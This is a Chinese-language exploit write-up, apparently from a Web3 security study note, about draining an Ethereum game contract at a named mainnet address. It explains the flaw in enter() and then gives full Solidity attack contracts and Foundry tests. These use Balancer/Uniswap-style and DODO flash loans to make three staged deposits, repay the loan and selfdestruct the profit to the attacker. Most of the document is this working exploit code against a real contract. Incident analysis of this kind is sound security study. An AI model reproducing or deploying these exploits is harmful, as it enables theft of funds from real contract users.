

- https://app.blocksec.com/explorer/tx/eth/0xf174c30f1becd1fad7c21a8eda50c958cf30bb662f218e5c5e65b7ec441fc545    
- 漏洞合约： https://etherscan.io/address/0xe6329d65ebcc5cbccdd719d7b18ac9e220dca145
- 参考： https://oosec.cn/2025/10/17/StackyGame/

## 漏洞详情  --- WEB3Audit分析

### 漏洞原因

目标合约存在以下问题：
1. 价格计算逻辑中对于大额交易缺乏有效的滑点保护
2. `enter()` 函数中的余额计算存在问题，允许攻击者通过特定的调用顺序获取超额收益   
3. 合约中的资金分配比例固定（98%），没有动态调整机制

### 2.3 攻击流程

1. **准备阶段**
   - 攻击者部署主合约 `0xfbb9224f20163a044dd2cb55f01a94e0fd140a24`
   - 创建执行合约 `0xc8d7963a59f0c298822c3d42931fa2bab9065825`
1. **闪电贷操作**
   - 从 Balancer 借入 3 ETH
   - 使用 `unlock()` 和 `take()` 函数进行借贷  
1. **套利执行**
   - 分三次向目标合约发送共 2.7 ETH
     * 0.1 ETH
     * 0.9 ETH
     * 1.7 ETH
   - 合约计算错误导致返还 3.267 ETH  
1. **清理操作**
   - 归还 3 ETH 闪电贷
   - 通过合约自毁将 0.567 ETH 利润转移至攻击者地址

### 漏洞代码
```solidity

function enter() public payable {

    if (msg.value >= 0x16345785d8a0000) {  // 检查最小金额

        if (msg.value <= 0x29a2241af62c0000) {  // 检查最大金额

            v0 = msg.value;

        } else {

            v1 = msg.sender.call().value(msg.value + ~0x29a2241af62bffff);

            v0 = v2 = 0x29a2241af62c0000;

        }

        _participants = _participants + 1;

        // ... 省略部分代码 ...

        _collectedFees = _collectedFees + v0 / 3;

        _balance += v0;

        // ... 省略部分代码 ...

        if (_balance > STORAGE[...] << 1) {  // 关键漏洞点
				//  _balance 合约当前总的余额  > ( storage * 2 ) 
				
				   最开始10 ETH
				   然后存 0.1 ——》0.9 -》1.7  ETH
				   --- > 12.7
				   
            v4 = address(...).call().value(98 * (STORAGE[...] / 3));

            _balance = _balance - (STORAGE[...] << 1);

        }

    }

}

```


## EXP
### 接口定义
```solidty
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "forge-std/console.sol";

// 闪电贷管理器接口
interface IPoolManager {
    function unlock(bytes calldata data) external returns (bytes memory);
    function take(address currency, address to, uint256 amount) external;
    function settle() external payable returns (uint256);
}

// 漏洞合约接口
interface IVictimContract {
    function enter() external payable;
    function balance() external view returns (uint256);
    function collectedFees() external view returns (uint256);
    function payoutIdx() external view returns (uint256);
}

```


### 编写攻击合约
1. 触发闪电贷
2. 实现闪电贷回调函数
3. 在回调函数中执行攻击逻辑
4. 归还闪电贷资金
```solidity
contract AttackContract {
	// 定义常量
	address public constant POLL_MANAGER = 0x ....; //闪电贷合约
	address public constant VICTIM =0x...; //漏洞合约地址
	unint256 public constant FLASH_LOAN_AMOUNT = 3ether; // 闪电贷金额
	
	// 状态变量
	bool private attacking; //防重入标志
	address public immutable owner;  //攻击者地址
	
	constructir(){
		owner = msg.sender;
	}
	
	// 触发攻击的函数
	function triggerAttacker() external{
		require(msg.sender == owner,"Now authorized");
		
		// 触发闪电贷
		IPoolManager(POOL_MANAGER).unlock("");
		
		// 自毁并将余额转给攻击者
		selfdestruct(payable(owner));
	}
	
	//闪电贷回调函数
	function unlockCallback(bytes calldata) external payable returns (bytes memory) {
        // 验证调用者
        require(msg.sender == POOL_MANAGER, "Not pool manager");
        // 防止重入
        if (attacking) return new bytes(0);
        attacking = true;
        
        // 1. 获取闪电贷资金
        IPoolManager(POOL_MANAGER).take(NATIVE_CURRENCY, address(this), FLASH_LOAN_AMOUNT);
        
        // 2. 执行攻击逻辑 - 分批次调用漏洞合约
        IVictimContract(VICTIM).enter{value: 0.1 ether}();
        IVictimContract(VICTIM).enter{value: 0.9 ether}();
        IVictimContract(VICTIM).enter{value: 1.7 ether}();
        
        // 3. 结算还款
        IPoolManager(POOL_MANAGER).settle{value: FLASH_LOAN_AMOUNT}();
        
        // 重置攻击标志
        attacking = false;
        return new bytes(0);
    }
	
	
	// 接收ETH函数
  receive() external payable {}
    
  // 回退函数
  fallback() external payable {}
}
```


### 测试合约
测试合约用于验证攻击是否成功，需要实现以下功能：
1. 设置测试环境
2. 部署攻击合约
3. 执行攻击
4. 验证攻击结果
```solidty
contract ExploitTest is Test {
    // 定义常量
    address constant VICTIM_CONTRACT = 0xE6329d65eBcc5CBCcdD719D7b18ac9E220Dca145;
    address constant POOL_MANAGER = 0x000000000004444c5dc75cB358380D2e3dE08A90;
    
    // 合约实例
    AttackContract attackContract;
    address attacker;

    function setUp() public {
        // 设置攻击者地址
        attacker = makeAddr("attacker");
        // Fork主网状态
        vm.createSelectFork(("https://virtual.mainnet.eu.rpc.tenderly.co/..."), 23575460);
        // 部署攻击合约
        vm.startPrank(attacker);
        attackContract = new AttackContract();
        vm.stopPrank();
    }

    function testExploit() public {
        // 记录攻击前后状态
        uint256 attackerBalanceBefore = attacker.balance;
        uint256 victimBalanceBefore = VICTIM_CONTRACT.balance;
        
        // 执行攻击
        vm.prank(attacker);
        attackContract.triggerAttack();
        
        // 记录攻击后状态
        uint256 attackerBalanceAfter = attacker.balance;
        uint256 victimBalanceAfter = VICTIM_CONTRACT.balance;
        
        // 计算利润并验证攻击成功
        int256 netProfit = int256(attackerBalanceAfter) - int256(attackerBalanceBefore);
        assertTrue(netProfit > 0, "Attack should be profitable");
    }

		// 接收ETH函数
    receive() external payable {}

}

```


#### EXp

```Sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "forge-std/console.sol";

// 闪电贷管理器接口
interface IPoolManager {
    function unlock(bytes calldata data) external returns (bytes memory);
    function take(address currency, address to, uint256 amount) external;
    function settle() external payable returns (uint256);
}

// 漏洞合约接口
interface IVictimContract {
    function enter() external payable;
    function balance() external view returns (uint256);
    function collectedFees() external view returns (uint256);
    function payoutIdx() external view returns (uint256);
}

contract AttackContract {
    // 定义常量
    address public constant POOL_MANAGER = 0x000000000004444c5dc75cB358380D2e3dE08A90; // 闪电贷合约
    address public constant VICTIM = 0xE6329d65eBcc5CBCcdD719D7b18ac9E220Dca145; // 漏洞合约地址
    address public constant NATIVE_CURRENCY = address(0); // 原生代币地址
    
    // 状态变量
    bool private attacking; // 防重入标志
    
    // 触发攻击的函数
    function triggerAttacker() external{
        // 触发闪电贷
        IPoolManager(POOL_MANAGER).unlock("");

        // 自毁函数
        selfdestruct(payable(msg.sender));
    }
    
    // 闪电贷回调函数
    function unlockCallback(bytes calldata data) external payable returns (bytes memory) {
        // 验证调用者
        require(msg.sender == POOL_MANAGER, "Not pool manager");
        // 防止重入
        if (attacking) return new bytes(0);
        attacking = true;
        
        // 1. 获取闪电贷资金
        IPoolManager(POOL_MANAGER).take(NATIVE_CURRENCY, address(this), 3 ether);
        
        // 2. 执行攻击逻辑 - 分批次调用漏洞合约
        
        // 执行攻击
        IVictimContract(VICTIM).enter{value: 0.1 ether}();
        IVictimContract(VICTIM).enter{value: 0.9 ether}();
        IVictimContract(VICTIM).enter{value: 1.7 ether}();
        
        // 3. 结算还款
        IPoolManager(POOL_MANAGER).settle{value: 3 ether}();
        
        // 重置攻击标志
        attacking = false;
        return new bytes(0);
    }
    
    // 接收ETH函数
    receive() external payable {}
    
    // 回退函数
    fallback() external payable {}
}

contract ExploitTest is Test {
    // 定义常量
    address constant VICTIM_CONTRACT = 0xE6329d65eBcc5CBCcdD719D7b18ac9E220Dca145;
    address constant POOL_MANAGER = 0x000000000004444c5dc75cB358380D2e3dE08A90;
    
    // 合约实例
    AttackContract attackContract;
    address attacker;

    function setUp() public {
        // 设置攻击者地址
        attacker = address(this);
        // Fork主网状态
        vm.createSelectFork("https://virtual.mainnet.eu.rpc.tenderly.co/7568688b-2ad3-45f6-939c-f186b20503d6", 23575460);
        // 部署攻击合约
        vm.startPrank(attacker);
        attackContract = new AttackContract();
        vm.stopPrank();
    }

    function testExploit() public {
        // 记录攻击前后状态
        uint256 attackerBalanceBefore = attacker.balance;
        
        // 执行攻击
        vm.prank(attacker);
        attackContract.triggerAttacker();
        
        // 记录攻击后状态
        uint256 attackerBalanceAfter = attacker.balance;
        
        // 计算利润并验证攻击成功
        int256 netProfit = int256(attackerBalanceAfter) - int256(attackerBalanceBefore);
        console.log("Net profit: %d wei", netProfit);
        assertTrue(netProfit > 0, "Attack should be profitable");
    }

    // 接收ETH函数
    receive() external payable {}
}
```


- DODO
	- 池子：https://app.dodoex.io/pool
	- 转换的就是刚刚那个漏洞的
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "forge-std/console.sol";

// DODO闪电贷接口
interface IDODO {
    function flashLoan(
        uint256 baseAmount,
        uint256 quoteAmount,
        address assetTo,
        bytes calldata data
    ) external;
    
    function _BASE_TOKEN_() external view returns (address);
    function _QUOTE_TOKEN_() external view returns (address);
}

// WETH接口
interface IWETH {
    function deposit() external payable;
    function withdraw(uint256) external;
    function transfer(address to, uint256 value) external returns (bool);
    function approve(address spender, uint256 value) external returns (bool);
    function balanceOf(address account) external view returns (uint256);
}

// 漏洞合约接口
interface IVictimContract {
    function enter() external payable;
    function balance() external view returns (uint256);
    function collectedFees() external view returns (uint256);
    function payoutIdx() external view returns (uint256);
}

contract AttackContract {
    // 定义常量 - 使用真实的DODO池地址和WETH地址
    address public constant DODO_POOL = 0x024617Bd31Fa2298D5DeF5412d0386838a855191;
    address public constant WETH = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address public constant VICTIM = 0xE6329d65eBcc5CBCcdD719D7b18ac9E220Dca145;
    
    // 状态变量
    bool private attacking;
    uint256 private loanAmount;
    
    // 触发攻击的函数
    function triggerAttack() external {
        loanAmount = 3 ether;
        
        address baseToken = IDODO(DODO_POOL)._BASE_TOKEN_();
        address quoteToken = IDODO(DODO_POOL)._QUOTE_TOKEN_();
        
        if (baseToken == WETH) {
            IDODO(DODO_POOL).flashLoan(loanAmount, 0, address(this), abi.encode(loanAmount));
        } else if (quoteToken == WETH) {
            IDODO(DODO_POOL).flashLoan(0, loanAmount, address(this), abi.encode(loanAmount));
        } else {
            revert("No WETH in this pool");
        }
        
        // 自毁并将资金发送给调用者
        selfdestruct(payable(msg.sender));
    }
    
    // DODO池回调函数
    function DVMFlashLoanCall(
        address sender,
        uint256 baseAmount,
        uint256 quoteAmount,
        bytes calldata data
    ) external {
        _handleFlashLoan(sender, baseAmount, quoteAmount, data);
    }
    
    // 处理闪电贷的核心逻辑
    function _handleFlashLoan(
        address sender,
        uint256 baseAmount,
        uint256 quoteAmount,
        bytes calldata data
    ) internal {
        require(msg.sender == DODO_POOL, "Not DODO pool");
        require(sender == address(this), "Invalid sender");
        
        if (attacking) return;
        attacking = true;
        
        uint256 borrowedAmount = baseAmount > 0 ? baseAmount : quoteAmount;
        uint256 expectedLoanAmount = abi.decode(data, (uint256));
        require(borrowedAmount >= expectedLoanAmount, "Insufficient loan amount");
        
        // 将WETH转换为ETH
        IWETH(WETH).withdraw(borrowedAmount);
        
        // 执行攻击逻辑
        IVictimContract(VICTIM).enter{value: 0.1 ether}();
        IVictimContract(VICTIM).enter{value: 0.9 ether}();
        IVictimContract(VICTIM).enter{value: 1.7 ether}();
        
        // 将ETH转换回WETH用于还款
        uint256 ethBalance = address(this).balance;
        if (ethBalance > 0) {
            IWETH(WETH).deposit{value: ethBalance}();
        }
        
        // 确保有足够的WETH还款
        uint256 wethBalance = IWETH(WETH).balanceOf(address(this));
        require(wethBalance >= borrowedAmount, "Insufficient funds for repayment");
        
        // 还款给DODO池
        IWETH(WETH).approve(DODO_POOL, borrowedAmount);
        require(IWETH(WETH).transfer(DODO_POOL, borrowedAmount), "Repayment failed");
        

        // ⭐ 自毁只能返回ETH，不能返回WETH，所以要将WETH转换回ETH
        uint256 remainingWETH = wethBalance - borrowedAmount;
        if (remainingWETH > 0) {
            IWETH(WETH).withdraw(remainingWETH);
        }
        attacking = false;
    }
    
    // 接收ETH函数
    receive() external payable {}
}

// 测试合约
contract ExploitTest is Test {
    address constant VICTIM_CONTRACT = 0xE6329d65eBcc5CBCcdD719D7b18ac9E220Dca145;
    address constant DODO_POOL = 0x024617Bd31Fa2298D5DeF5412d0386838a855191;
    address constant WETH = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    
    AttackContract attackContract;
    address attacker;

    function setUp() public {
        attacker = makeAddr("attacker");
        
        // Fork主网状态
        vm.createSelectFork("https://virtual.mainnet.eu.rpc.tenderly.co/3d09aad3-0aca-4b19-ac91-3bb9aa634acf", 23575460);
        vm.deal(attacker, 1 ether);
        vm.startPrank(attacker);
        attackContract = new AttackContract();
        vm.stopPrank();
    }

    function testExploit() public {
        uint256 attackStart = attacker.balance;
        console.log("Attacker balance before attack:", attackStart);
        console.log("Victim contract balance:", address(VICTIM_CONTRACT).balance);
        
        vm.startPrank(attacker);
        
        payable(address(attackContract)).transfer(0.1 ether);
        
        attackContract.triggerAttack();
        vm.stopPrank();
        
        uint256 netProfit = uint256(attacker.balance) - uint256(attackStart);
        
        console.log("Net profit: ", netProfit);
        console.log("Attacker balance after attack:", attacker.balance);
        
        assertTrue(netProfit > 0, "Attack should be profitable");
    }

    receive() external payable {}
}
```